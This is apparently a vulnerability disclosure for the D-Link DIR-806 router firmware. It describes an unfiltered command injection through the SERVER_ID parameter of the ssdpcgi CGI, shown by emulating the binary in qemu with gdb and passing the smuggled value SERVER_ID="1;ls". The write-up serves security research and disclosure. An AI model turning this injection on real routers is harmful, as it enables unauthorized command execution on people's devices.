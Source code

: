 # D-LINK DIR-806 1200M11AC wireless router DIR806A1_FW100CNb11 command injection(parameter of SERVER_ID)
## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-806 
![image-1](../img/4.jpg)
## Debugging verification
Debugging with qemu and gdb:

qemu: 

`sudo chroot . ./qemu-mips-static -0 "ssdpcgi" -E REMOTE_ADDR=127.0.0.1 -E SERVER_ID="1;ls" -E REMOTE_PORT=8888 -E HTTP_ST="upnp:rootdevice" -E REQUEST=/ -E REQUEST_METHOD=M-SEARCH -g 12345 ./htdocs/cgibin`

gdb: 

`set architecture mips` 

`set endian big` 

`target remote 127.0.0.1:12345` 

Set the SERVER_ID parameter as SERVER_ID="1;ls", The results are shown in the figure below: 
![image-1](../img/3.jpg)

No filtering is done, and then the lxmldbc_system function is passed in to execute causing the command execute

